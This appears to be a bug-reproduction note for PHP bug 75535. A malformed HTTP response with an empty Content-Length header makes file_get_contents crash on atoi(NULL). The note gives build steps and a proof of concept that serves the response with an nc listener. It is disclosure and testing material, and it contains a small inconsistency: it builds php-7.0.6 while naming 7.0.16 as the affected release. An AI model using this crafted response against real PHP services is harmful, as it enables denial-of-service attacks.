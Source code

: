 ubuntu 14.04success 20.04fail
Version：补丁的前一个Version1ed08f9877b224b51078a0993f7faf52d432f4bd
The issue has been introduced in https://github.com/php/php-src/commit/5146d9f8ac170d8ba7109370d732d56dc0777578, which landed in PHP 7.0.16, PHP 7.1.2 and PHP 7.2-dev. It does not affect PHP 5.6.
git checkout 1ed08f9877b224b51078a0993f7faf52d432f4bd

## Compilation process
git clone git@github.com:php/php-src.git
cd php-src
git checkout php-7.0.6
apt update
apt install -y make gcc autoconf bison re2c libxml2-dev
./configure
make -j$(nproc)
make install


## pocTrigger process

I fuzzed the HTTP parsing function in the latest version of PHP and found a segment fault. It is very easy to trigger this segment fault and may be vulnerable in some scenarios.

In `ext/standard/http_fopen_wrapper.c#L801`

`http_header_value` can be a NULL value. so the `atoi(NULL)` will lead to segment fault!

https://github.com/php/php-src/blob/9fbb019848cbb0387cb7267489dd91ebb4d9050e/ext/standard/http_fopen_wrapper.c#L801

Test script:
---------------
# cat poc
HTTP/1.1 200 OK
Content-Length

# nc -vvlp 80 < poc &
# php -r 'file_get_contents("http://localhost/");'
Segmentation fault


https://bugs.php.net/bug.php?id=75535